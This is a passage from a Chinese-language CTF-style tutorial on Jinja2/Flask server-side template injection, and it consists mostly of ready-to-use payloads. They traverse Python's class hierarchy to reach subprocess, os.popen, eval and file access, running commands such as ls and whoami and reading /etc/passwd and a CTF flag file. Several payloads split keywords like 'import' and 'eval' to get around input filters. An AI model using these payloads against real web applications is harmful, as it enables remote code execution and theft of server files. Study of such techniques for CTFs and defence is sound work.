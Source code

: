 位置一般在258：

```bash
{{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}

{{''.__class__.__mro__[2].__subclasses__()[258]('ls /flasklight',shell=True,stdout=-1).communicate()[0].strip()}}

{{''.__class__.__mro__[2].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}
```

4, **<class ‘warnings.catch_warnings’>**

一般位置为59，可以用它来调用file、os、eval、commands等

调用 file：

```bash
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()      #把 read() 改为 write() 就是写文件
```

Import os：

```bash
[].__class__.__base__.__subclasses__()[189].__init__.__globals__['__builtins__']['__imp'+'ort__']('os').__dict__['pop'+'en']('ls /').read()
```

调用 eval：

```bash
[].__class__.__base__.__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")

[].__class__.__base__.__subclasses__()[189].__init__.__globals__['__builtins__']['ev'+'al']('__imp'+'ort__("os").po'+'pen("ls ./").read()')

```

调用system方法。（不包含system，可以绕过过滤system的情况）：

```bash
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')
```
利用commands进行命令执行：

```bash
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')
```

---
## 六：Payload 大全
1，jinja2 通用：(python) :
